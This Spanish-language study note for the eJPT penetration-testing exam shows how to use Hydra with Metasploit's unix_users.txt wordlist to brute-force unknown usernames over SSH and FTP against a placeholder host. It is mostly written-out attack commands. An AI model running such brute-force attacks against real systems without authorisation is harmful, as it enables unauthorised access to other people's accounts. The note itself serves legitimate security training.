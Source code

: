 
----
- TAG: #Fuerza-Bruta #Ataques #Usuarios #Hydra #SSH #FTP 
---
# Uso de Hydra para Descubrir Usuarios Desconocidos

En esta ocasión vamos a ver cómo descubrir nuestro usuario cuando tenemos la contraseña pero desconocemos el nombre del usuario. Aprenderemos a utilizar **Hydra** de otra manera. Es importante tener en cuenta que el diccionario **rockyou.txt** solo contiene contraseñas, pero no usuarios. Les indicaré cuál sería la opción a utilizar en el examen de la **eJPT**.

## Preparación del Diccionario de Usuarios

Primero, deben asegurarse de tener el diccionario **/usr/share/wordlists/metasploit/unix_users.txt**:

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://1.2.3.4
```

Si no tienen instaladas todas las librerías de **Wordlists**, las pueden obtener descargándolas de la siguiente manera:

```bash
sudo apt install wordlists
```

Con esto, tendrán las librerías de Metasploit, Seclists, Wfuzz, nmap.lst, etc.

## Ruta Alternativa de Diccionarios

Si no encuentran resultados con esta ruta `/usr/share/wordlists/metasploit/unix_users.txt`, debemos seguir intentando con las demás rutas hasta que las encontremos. Por lo general, todos los usuarios se encontrarán dentro de la lista. 

Para resumir y explicar mejor, agregaremos el usuario **juan** en la lista con **nano** o **nvim**:

```bash
sudo nano /usr/share/wordlists/metasploit/unix_users.txt
```

Luego, al volver a ejecutar el comando, aparecerá que el usuario juan es el correcto:

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://1.2.3.4
```

## Ataque de Fuerza Bruta con FTP

Si desean hacerlo con el protocolo **FTP**, lo pueden realizar de la misma manera, pero cambiando el protocolo:

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://1.2.3.4
```

---

## Recomendaciones Finales

Para finalizar, les recomiendo mucho navegar por los diccionarios mencionados, ya que contienen archivos que pueden llegar a ser muy útiles para encontrar usuarios y contraseñas, tanto en las carpetas de Metasploit como en el archivo Rockyou.txt para el examen **eJPT**.

---

### Resumen de Comandos Utilizados

1. **Instalación de Wordlists**:

```bash
sudo apt install wordlists
```

2. **Uso de Hydra para Descubrir Usuarios**:

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://1.2.3.4
```

3. **Agregar Usuario en la Lista**:

```bash
sudo nano /usr/share/wordlists/metasploit/unix_users.txt
```

4. **Uso de Hydra para FTP**:

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://1.2.3.4
```

Con estos conocimientos y prácticas, estarán mejor preparados para el examen **eJPT**. ¡Buena suerte!
